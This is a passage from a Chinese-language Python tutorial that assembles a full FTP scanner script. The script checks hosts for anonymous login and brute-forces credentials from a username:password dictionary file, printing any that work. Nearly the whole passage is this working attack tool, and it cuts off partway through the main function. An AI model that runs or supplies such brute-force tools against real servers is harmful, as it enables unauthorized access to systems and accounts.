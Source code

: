 ### 3.4 整合全部的代码

基本的代码咱们已经实现完成了，现在把上面的代码整合一下就可以了，代码如下:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from ftplib import *
import argparse
import time

#匿名登录扫描
def anonScan(hostname):                 #参数是主机名
    try:
        with FTP(hostname) as ftp:      #创建 Ftp 对象
            ftp.login()                 #Ftp 匿名登录
            print('\n[*] ' + str(hostname) + " FTP Anonymous login successful!") #不抛出异常则表明登录成功
            return True
    except Exception as e:              #抛出异常则表明匿名登录失败
        print('\n[-] ' + str(hostname) + " FTP Anonymous logon failure!")
        return False

#暴力破解
def vlcLogin(hostname, pwdFile):                #参数(主机名，字典文件)
    try:
        with open(pwdFile, 'r') as pf:          #打开字典文件
            for line in pf.readlines():         #循环读取字典文件中的每一行
                time.sleep(1)                   #等待 1 秒
                userName = line.split(':')[0]   #从读取的内容中取出用户名
                passWord = line.split(':')[1].strip('\r').strip('\n') #从读取的内容中取出密码
                print('[+] Trying: ' + userName + ':' + passWord)
                try:
                    with FTP(hostname) as ftp:  #以主机名为参数构造 Ftp 对象
                        ftp.login(userName, passWord)   #使用读取出的用户名密码登录 Ftp 服务器
                        #如果没有产生异常则表示登录成功，打印主机名、用户名和密码
                        print('\n[+] ' + str(hostname) + ' FTP Login successful: '+ \
                              userName + ':' + passWord)
                        return (userName, passWord)
                except Exception as e:
                    # 产生异常表示没有登录成功，这里我们不用管它，继续尝试其他用户名、密码
                    pass
    except IOError as e:
        print('Error: the password file does not exist!')
    print('\n[-] Cannot crack the FTP password, please change the password dictionary try again!')
    return (None,None)

def main():
    # 这里用描述创建了 ArgumentParser 对象
    parser = argparse.ArgumentParser(description='FTP Scanner')
    # 添加-H 命令 dest 可以理解为咱们解析时获取-H 参数后面值的变量名,help 是这个命令的帮助信息
    parser.add_argument('-H',dest='hostName',help='The host list with ","space')
    parser.add_argument('-f',dest='pwdFile',help='Password dictionary file')
    options = None
    try:
        options = parser.parse_args()

    except:
        print(parser.parse_args(['-h']))
        exit(0)

    hostNames = str(options.hostName).split(',')
    pwdFile = options.pwdFile
    if hostNames == ['None']:
        print(parser.parse_args(['-h']))
```